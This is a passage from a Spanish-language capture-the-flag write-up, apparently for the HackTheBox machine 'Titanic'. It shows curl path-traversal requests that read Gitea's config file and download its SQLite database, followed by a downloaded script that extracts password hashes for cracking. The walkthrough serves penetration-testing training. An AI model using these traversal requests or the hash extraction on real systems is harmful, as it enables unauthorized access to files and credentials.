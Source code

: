 Podemos obtener lo siguiente:
```
> curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea//data/gitea/conf/app.ini"

...

[database]
PATH = /data/gitea/gitea.db <------------ ruta a la base de datos
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

...

```
Nos descargamos la base de datos. 
```
> curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```
```
> ls
gitea.db
```

Ahora podemos abrir la base de datos y acceder a su información.
```
> sqlite3 gitea.db
```
Pedimos ver las tablas. 
```
sqlite> .tables
```
Y de todas las mostradas, nos interesa *user*.

![Captura Tabla user](../capturas/titanic/captura_db.png)


Me voy a ayudar del siguiente repositorio público para obtener los hashes de la tabla de datos.
```
wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py
python3 gitea2hashcat.py gitea.db > hashes.txt
```
Ya los tenemos en el archivo *hashes.txt*:
```
> cat hashes.txt     
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```